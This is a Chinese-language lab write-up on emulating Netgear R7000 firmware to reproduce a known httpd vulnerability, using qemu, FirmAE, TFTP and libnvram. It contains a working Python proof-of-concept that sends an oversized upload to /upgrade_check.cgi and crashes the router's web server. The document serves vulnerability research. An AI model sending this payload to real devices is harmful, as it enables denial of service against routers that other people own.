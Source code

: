 参考于文章[复现影响79款Netgear路由器高危漏洞](https://blog.csdn.net/q759451733/article/details/114459181)，但原文章是基于真实设备做的，这里尝试采用模拟的方式。

刚开始尝试qemu用户仿真，会报错说`libbdbroker.so`找不到
```
sudo chroot . ./qemu-arm-static /usr/sbin/httpd -S -E /usr/sbin/ca.pem /usr/sbin/httpsd.pem
/usr/sbin/httpd: can't load library 'libbdbroker.so'
```

然后去文件系统中找，这里会出现各种各种符号链接，但是是坏的，在提取的文件系统里确实找不到这个`libbdbroker.so`文件，这应该是路由器启动过程中动态生成的文件。

于是尝试使用FirmAE进行仿真，可以成功仿真！
```
sudo ./run.sh -d Netgear /home/iot/Desktop/firmware/Netgear/R7000-V1.0.11.100_10.2.100/R7000-V1.0.11.100_10.2.100.chk
```

![](images/Pasted%20image%2020230918224258.png)

通过debug模式进入shell，在FirmAE仿真的文件系统里可以找到`libbdbroker.so`文件，并且运行poc代码可以让http服务崩溃。
```python
# poc.py
import socket

ip = '192.168.1.1'
port = 80
argument_name = b"mtenFWUpload"

def send_plain(ip, port, payload):
	sock=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	sock.connect((ip, port))
	sock.send(payload)
	print(sock.recv(4096))
	sock.close()

data = b""
data += b"*#$^\x00" # marker
data += b"\x00\x04\x00" # size
data += b"A" * 0x400

payload = b''
payload += b'POST /upgrade_check.cgi HTTP/1.1\r\n'
payload += b'Host: 192.168.1.1\r\n'
payload += b'Content-Disposition: AAAA\r\n'
payload += b'Content-Length: 1024\r\n'
payload += b'Content-Type: application/octet-stream\r\n'
payload += b'name="mtenFWUpload"\r\n'
payload += b'\r\n'
payload += data

print(payload)

send_plain(ip, port, payload)

```

由于项目需要，要尝试将httpd程序通过用户仿真方式跑起来并能够触发崩溃，查看固件支持的命令发现支持tftp，于是在主机搭建tftp服务器，把缺少的`libbdbroker.so`文件拷贝出来再尝试运行。
## 搭建tftp服务器

在ubuntu主机上安装服务端
```
sudo apt-get install tftpd-hpa
```

创建tftp服务器目录
```
cd /home/iot/Desktop
mkdir tftp_share
```

配置tftp服务器
```
sudo vim /etc/default/tftpd-hpa
```

将内容更改为如下内容：
```
TFTP_USERNAME="tftp"
TFTP_DIRECTORY="/home/iot/Desktop/tftp_share"
TFTP_ADDRESS=":69"
TFTP_OPTIONS="-l -c -s"
```

重启tftp服务
```
sudo service tftpd-hpa restart
```

在FirmAE跑起来的固件环境shell中运行tftp命令传输文件
```
tftp -l /tmp/media/nand/bitdefender/patches/base/lib/libbdbroker.so -r libbdbroker.so  -p 192.168.1.2 69
```

然后在tftp配置的目录下就可以找到相应的文件。

将`libbdbroker.so`文件放在lib目录下，然后再以用户仿真运行httpd程序，这次报`/var/run/httpd.pid: No such file or directory`，原因是缺少相应的目录，创建对应目录即可。提取的文件系统var指向tmp/var（不存在），所以递归创建目录`tmp/var/run`，然后再运行。

这次就开始报`/dev/nvram: No such file or directory`，这是因为没有配置nvram，可以安装firmadyne项目中提供的方法进行配置。

## nvram配置
根据[firmadyne/libnvram: NVRAM emulator (github.com)](https://github.com/firmadyne/libnvram) 中Usage的描述，下载arm版本的release，将`libnvram.so`覆盖原来的文件`usr/sbin/libnvram.so`，在文件系统根目录创建目录
```
mkdir -p firmadyne/libnvram/
mkdir -p firmadyne/libnvram.override/
```

然后重新启动httpd程序，nvram问题解决了，但是又崩了。。

![](images/Pasted%20image%2020230919113506.png)

没找出原因在哪儿，放弃。ps.尝试通过greenhouse工具跑该固件，但是跑完后没有结果。

## 全系统仿真
前面没跑通，后来又尝试全系统模式仿真，测试发现上面的问题是因为NVRAM的值（`gui_region`）没有设置，需要设置它的值才能继续跑下去，但是后面还有很多NVRAM的值需要设置，暂时还是没跑起来，记录一下全系统仿真时的脚本。

```
qemu-system-arm -M vexpress-a9 -kernel vmlinuz-3.2.0-4-vexpress -initrd initrd.img-3.2.0-4-vexpress -drive if=sd,file=debian_wheezy_armhf_standard.qcow2 -append "root=/dev/mmcblk0p2" -net nic -net tap,ifname=tap0,script=no,downscript=no -nographic

./gdbserver-7.7.1-armel-v1 192.168.2.2:1234 usr/sbin/httpd -S -E /usr/sbin/ca.pem /usr/sbin/httpsd.pem
```